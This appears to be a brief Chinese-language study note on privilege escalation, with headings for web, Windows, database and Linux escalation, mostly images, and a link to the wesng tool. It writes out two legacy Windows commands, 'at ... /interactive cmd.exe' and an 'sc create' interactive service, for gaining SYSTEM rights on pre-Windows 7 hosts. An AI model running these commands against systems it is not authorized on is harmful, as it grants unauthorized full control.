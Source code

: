 # 网站权限

![image](images/EAE2C22E9AE3449BB4F666A28D933E14clipboard.png)

# Windows系统提权

![image](images/56AC5C89DD3A4E3887BCF538D389BC93clipboard.png)


### 提权漏洞信息收集工具

- wes
https://github.com/bitsadmin/wesng

### at

针对windows7前的操作系统

通过 

```cmd 
at 15:13 /interactive cmd.exe 
```

可以直接获得system权限 

### sc

针对windows7前的操作系统

```cmd

sc Create systemcmd binPath="cmd /K start" type=own type=interact

sc start systemcmd
```

# 数据库提权

思路：通过获得数据库最高权限用户，执行命令

![image](images/F2259586F1DA4F0EAAEEFC0F5D2608FDclipboard.png)

### mysql

### mssql

### oracle

# Linux提权

![image](images/53C53596373646BA9B606FAA4BD244FEclipboard.png)
